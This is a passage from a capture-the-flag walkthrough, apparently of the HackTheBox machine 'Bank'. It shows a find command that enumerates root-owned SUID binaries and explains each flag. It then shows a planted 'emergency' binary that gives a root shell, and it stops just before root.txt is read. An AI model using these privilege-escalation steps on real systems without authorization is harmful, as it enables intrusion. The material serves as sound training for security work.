 

    find / -type f -user root -perm -4000 2>/dev/null



That will:

-   search all subdirectories of `/` (the entire file system)
-   `-type f` - only return files
-   `-user root` - only return files owned by root
-   `-perm -4000` - files with SUID bit set
-   `2>/dev/null` - don't show errors

On Bank, it finds several items:



    www-data@bank:/$ find / -type f -user root -perm -4000 2>/dev/null
    /var/htb/bin/emergency
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/bin/chsh
    /usr/bin/passwd
    /usr/bin/chfn
    /usr/bin/pkexec
    /usr/bin/newgrp
    /usr/bin/traceroute6.iputils
    /usr/bin/gpasswd
    /usr/bin/sudo
    /usr/bin/mtr
    /usr/sbin/pppd
    /bin/ping
    /bin/ping6
    /bin/su
    /bin/fusermount
    /bin/mount
    /bin/umount



The first one is particularly interesting and non-standard,
`/var/htb/bin/emergency`.

#### Shell

Running `emergency` just returns a root shell:



    www-data@bank:/$ /var/htb/bin/emergency                           
    # id
    uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)



The admin must have left themself a backdoor. My effective uid is now
root, which allows me to read `root.txt`:
